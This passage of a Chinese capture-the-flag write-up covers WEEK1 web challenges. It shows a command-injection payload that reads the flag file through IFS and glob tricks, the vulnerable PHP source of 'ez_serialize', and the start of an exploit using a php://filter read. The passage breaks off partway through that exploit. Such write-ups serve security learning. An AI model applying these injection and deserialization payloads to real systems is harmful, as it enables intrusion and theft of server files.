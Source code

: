 `?rce=uniq${IFS}/f???`<br />回显flag<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698565697092-0e345702-ed41-4937-9d58-f079435ce576.png#averageHue=%23f6f4f3&clientId=u35de8186-3912-4&from=paste&height=132&id=u34f14bdc&originHeight=165&originWidth=734&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=27443&status=done&style=none&taskId=u9ac39def-6c06-4646-8086-9b851f49788&title=&width=587.2)<br />**得出flag：**<br />`flag{e85932a6-12df-4991-981c-adaf56337196}`
<a name="l8SAO"></a>
### [WEEK1]ez_serialize
题目环境：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698565985639-f5743f0d-99e5-4fbb-9ceb-322dbffacedc.png#averageHue=%23fdfdfc&clientId=u35de8186-3912-4&from=paste&height=710&id=u361c5e5b&originHeight=887&originWidth=671&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=33999&status=done&style=none&taskId=u6ca77dbe-5605-4b25-a40b-ce2ff6f26bb&title=&width=536.8)
```php
<?php
  highlight_file(__FILE__);

class A{
  public $var_1;

  public function __invoke(){
    include($this->var_1);
  }
}

class B{
  public $q;
  public function __wakeup()
  {
    if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->q)) {
      echo "hacker";           
    }
  }

}
class C{
  public $var;
  public $z;
  public function __toString(){
    return $this->z->var;
  }
}

class D{
  public $p;
  public function __get($key){
    $function = $this->p;
    return $function();
  }  
}

if(isset($_GET['payload']))
{
  unserialize($_GET['payload']);
}
  ?>
```
**exp:**
```php
<?php
  class A{
  public $var_1='php://filter/read=convert.base64-encode/resource=flag.php';
  }
  class B{
    public $q;
```